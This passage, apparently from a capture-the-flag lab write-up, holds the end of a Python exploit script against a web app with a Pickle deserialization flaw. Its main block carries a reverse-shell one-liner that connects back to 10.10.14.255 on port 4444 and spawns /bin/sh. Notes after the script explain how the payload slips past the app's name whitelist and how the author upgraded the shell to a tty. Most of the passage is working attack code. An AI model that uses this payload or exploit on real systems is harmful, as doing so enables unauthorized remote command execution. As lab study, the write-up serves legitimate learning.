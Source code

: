 ```python
        return md5(char+quote).hexdigest()
    else:
        print "[-] Error sending payload"
        raise Exception("Error sending payload: \n\tHttp code returned: {http_code}. \n\t response body:\n {body}".format(http_code= r.status_code, body=r.text))

def check_and_run_exploit(id_code):
    action = 'check'
    headers = {'Content-type': 'application/x-www-form-urlencoded'}
    payload = "id={id_code}".format(id_code=id_code)
    path = PATH_REMOTE.format(action) if REMOTE else PATH_LOCAL.format(action)
    r = requests.post(path, data=payload, headers=headers)
    if r.status_code == 200: 
        print "[+] Exploit successfully executed"
        return r.text
    else:
        print "[-] Error executing exploit"
        raise Exception("Error executing exploit: \n\tHttp code returned: {http_code}. \n\t response body:\n {body}".format(http_code= r.status_code, body=r.text))

if __name__ == "__main__":
    cmd = "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.255\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
    id_code = submit_exploit(cmd)
    check_and_run_exploit(id_code)
```

Two disclaimers:

* The first and last part of the payload have two strings Homer and Marge. The first one is to bypass the whitelist filtering that app has regarding the name of the character. The last one is to avoid the application to trigger and error when concatenating the result of the Pickle.load() to a string (otherwise it will try to concatenate a number (the error code of the executed command) and a string, and it will fail).
* The REMOTE variable is just something custom made to quickly switch between the Remote server and my local one.

After launching the exploit, we get a reverse shell in the port 4444. Once we got the reverse shell, we upgraded to tty (see ippsec video) in order to have more features (history, auto-completition, etc).
